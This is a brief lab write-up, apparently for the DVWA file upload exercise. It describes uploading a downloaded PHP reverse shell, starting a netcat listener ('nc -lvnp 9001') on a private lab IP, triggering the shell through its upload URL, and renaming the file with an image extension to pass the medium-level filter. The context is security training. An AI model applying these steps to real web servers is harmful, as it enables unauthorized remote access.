 Security level is currently: low.

php reverse shell code: Downloaded from github

Listing IP: 192.168.170.131 port: 9001

netcat listener command: nc -lvnp 9001

upload the file rev.php and visit the url : http://192.168.170.131/hackable/uploads/rev.php

and you have reverse shell:

![Screenshot 2025-04-25 032053](https://github.com/user-attachments/assets/fc5701af-ac70-40ff-ad23-4eae7ecde73a)


In the the medium section we can do the similar but we have to just edit the rev.php to rev.php.jpej so that it can easily bypass.

